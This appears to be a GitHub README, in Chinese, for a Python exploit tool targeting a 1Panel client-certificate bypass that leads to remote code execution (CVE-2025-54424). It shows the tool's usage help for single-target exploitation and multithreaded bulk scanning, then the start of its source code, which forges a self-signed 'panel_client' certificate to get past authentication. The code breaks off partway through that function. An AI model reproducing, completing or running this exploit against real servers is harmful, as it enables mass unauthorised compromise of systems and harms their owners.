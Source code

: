 ```
usage: CVE-2025-54424.py [-h] (-u URL | -f FILE) [-o OUTPUT] [-t THREADS]
                         [--proxy PROXY]

1Panel 客户端证书绕过RCE漏洞 一体化工具 (扫描+利用)
作者: Mrxn https://github.com/Mr-xn

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     单个目标，进入利用模式。例如: 192.168.1.100:8080
  -f FILE, --file FILE  目标文件，进入批量扫描模式。
  -o OUTPUT, --output OUTPUT
                        [扫描模式] 保存漏洞结果的文件名。
  -t THREADS, --threads THREADS
                        [扫描模式] 并发线程数。
  --proxy PROXY         为所有请求设置代理。例如: http://127.0.0.1:8080
```

比如单个检测+命令执行（SSH交互式命令执行）如下图所示

![](https://image.mrxn.net/78fdcbfa324d4dbca49c53cf56c9701b.webp)

```python
import base64
import ssl
import sys
import json
import os
import tempfile
import argparse
import requests
import websocket
import threading
from concurrent.futures import ThreadPoolExecutor, as_completed
from urllib.parse import urlparse
from cryptography import x509
from cryptography.x509.oid import NameOID
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.asymmetric import rsa
from cryptography.hazmat.primitives import serialization
import datetime

# 禁用 requests 库在禁用SSL验证时产生的警告
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

# --- 全局变量和线程锁 ---
print_lock = threading.Lock()
exploit_running = True
vulnerable_hosts = []

# --- 核心功能函数 ---

def generate_self_signed_cert():
    """动态生成CN为'panel_client'的证书和私钥，并返回临时文件路径。"""
    with print_lock:
        print("[*] 正在动态生成伪造的客户端证书...")
    try:
        private_key = rsa.generate_private_key(public_exponent=65537, key_size=2048)
        subject = issuer = x509.Name([x509.NameAttribute(NameOID.COMMON_NAME, u"panel_client")])
        cert_builder = x509.CertificateBuilder().subject_name(subject).issuer_name(issuer).public_key(
            private_key.public_key()
        ).serial_number(x509.random_serial_number()).not_valid_before(
            datetime.datetime.utcnow()
```